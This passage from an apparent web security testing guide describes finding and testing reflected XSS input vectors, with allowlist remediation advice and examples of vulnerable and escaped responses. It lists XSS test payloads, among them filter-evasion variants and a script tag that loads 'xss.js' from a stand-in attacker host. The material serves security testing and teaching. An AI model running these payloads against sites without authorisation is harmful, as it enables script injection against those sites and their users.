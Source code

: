 
**Example Input Vectors**:
- URL: `http://example.com/search?q=test`
- Form: `<input name="username">`
- Hidden: `<input type="hidden" name="token" value="abc123">`

**Remediation**:
- Validate inputs server-side using allowlists (e.g., alphanumeric).
- Log unexpected input for analysis:
  ```php
  if (!preg_match('/^[a-zA-Z0-9]+$/', $input)) {
      error_log("Invalid input: $input");
  }
  ```

**Tip**: Save the input vector list in a report.

### 2. Analyze Input Vectors

**Objective**: Test input vectors with payloads to detect reflection and execution.

**Steps**:
1. Prepare payloads:
   - Start with `<script>alert(123)</script>`.
   - Use OWASP XSS Filter Evasion Cheat Sheet for advanced payloads.
2. Inject payloads with Burp Suite:
   - Capture a request (e.g., `GET /search?q=test`).
   - Modify in Repeater: `q=<script>alert(123)</script>`.
   - Forward and check the response.
3. Inject manually:
   - Modify URL: `http://example.com/search?q=<script>alert(123)</script>`.
   - Submit forms with payloads in fields.
4. Use OWASP ZAP:
   - Add URL to Sites tab.
   - Run Active Scan and check Alerts for XSS (verify manually).
5. Check for reflection:
   - Search response HTML for the payload.
   - If an alert appears, the payload executed.

**Test Payloads**:
- `<script>alert(123)</script>`
- `" onfocus="alert(123)`
- `%3cscript%3ealert(123)%3c/script%3e`
- `<scr<script>ipt>alert(123)</script>`
- `<SCRIPT SRC="http://attacker/xss.js"></SCRIPT>`

**Example Vulnerable Response**:
```html
Welcome <script>alert(123)</script>!
```
Alert executes.

**Example Secure Response**:
```html
Welcome &lt;script&gt;alert(123)&lt;/script&gt;!
```
No execution.
